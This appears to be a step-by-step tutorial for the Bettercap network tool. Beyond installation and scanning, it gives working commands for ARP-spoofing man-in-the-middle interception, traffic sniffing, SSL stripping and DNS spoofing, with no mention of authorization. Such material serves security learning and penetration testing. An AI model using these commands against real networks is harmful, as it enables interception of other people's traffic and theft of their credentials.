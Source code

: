 # Bettercap

## Step-by-Step Tutorial on Bettercap

### Step 1: Installation
First, ensure that you have the latest version of Bettercap installed. Bettercap can be installed on various operating systems like Linux, macOS, and Windows.

**For Linux (Debian-based distributions like Ubuntu/Kali):**
```bash
sudo apt update
sudo apt install bettercap
```

**For macOS:**
```bash
brew install bettercap
```

**For Windows:**
1. Download and install the latest release from the [Bettercap GitHub Releases page](https://github.com/bettercap/bettercap/releases).
2. Extract the downloaded file and add the extracted folder to your system's PATH.

### Step 2: Running Bettercap
Open your terminal and run Bettercap with administrative privileges to start using it.

```bash
sudo bettercap
```

### Step 3: Understanding the Bettercap Interface
Once Bettercap starts, you will see a command prompt (`bettercap >`). This is where you will enter various commands to perform different tasks.

### Step 4: Basic Commands
Here are some basic commands to get started:

- **Help Command:** To see a list of available commands and modules.
  ```bash
  help
  ```

- **Modules:** To list all available modules.
  ```bash
  modules
  ```

- **Show:** To display the status of the current session and active modules.
  ```bash
  show
  ```

### Step 5: Network Scanning
One of the primary uses of Bettercap is network scanning to identify devices on the network.

- **net.probe:** To start probing for devices on the network.
  ```bash
  net.probe on
  ```

- **net.show:** To display the devices discovered on the network.
  ```bash
  net.show
  ```

### Step 6: Man-In-The-Middle (MITM) Attack
Bettercap can perform various MITM attacks. Here, we'll perform ARP spoofing to intercept network traffic.

- **arp.spoof:** To enable ARP spoofing.
  ```bash
  arp.spoof on
  ```

- **set arp.spoof.targets:** To specify the target IP address (or range) for ARP spoofing.
  ```bash
  set arp.spoof.targets 192.168.1.100
  ```

- **net.sniff:** To start sniffing network traffic.
  ```bash
  net.sniff on
  ```

### Step 7: HTTPS Downgrade
To intercept HTTPS traffic, you can use the `https.proxy` module.

- **https.proxy:** To enable HTTPS proxy.
  ```bash
  https.proxy on
  ```

- **set https.proxy.sslstrip:** To enable SSL stripping (downgrade HTTPS to HTTP).
  ```bash
  set https.proxy.sslstrip on
  ```

### Step 8: DNS Spoofing
You can also perform DNS spoofing to redirect traffic from a legitimate site to a malicious one.

- **dns.spoof:** To enable DNS spoofing.
  ```bash
  dns.spoof on
  ```

- **set dns.spoof.domains:** To specify the domain(s) to spoof.
  ```bash
  set dns.spoof.domains example.com
  ```

- **set dns.spoof.address:** To specify the IP address to which the domain should resolve.
  ```bash
  set dns.spoof.address 192.168.1.50
  ```

### Step 9: Exiting Bettercap
To stop all running modules and exit Bettercap, use the following command:
```bash
quit
```

### Step 10: Additional Resources
For more advanced usage and options, refer to the [official Bettercap documentation](https://www.bettercap.org/docs/).


